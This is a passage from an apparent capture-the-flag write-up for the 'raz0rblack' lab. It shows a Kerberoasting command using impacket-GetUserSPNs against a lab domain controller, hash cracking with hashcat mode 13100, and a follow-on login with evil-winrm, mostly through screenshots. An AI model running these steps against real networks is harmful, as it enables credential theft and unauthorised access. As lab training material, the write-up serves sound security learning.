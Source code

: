Adding the `-request` flag will give us the hash

![](attachments/20240515154917.png)

```shell
impacket-GetUserSPNs -dc-ip 10.10.13.185 raz0rblack.thm/twilliams:PASSWORD -request
```

Copy the hash and crack using hashcat. The hashcat mode is 13100

![](attachments/20240515155110.png)

![](attachments/20240515155208.png)

![](attachments/20240515155234.png)
# What is Xyan1d3's Flag?

Now we can login using `evil-winrm`

![](attachments/20240515155445.png)
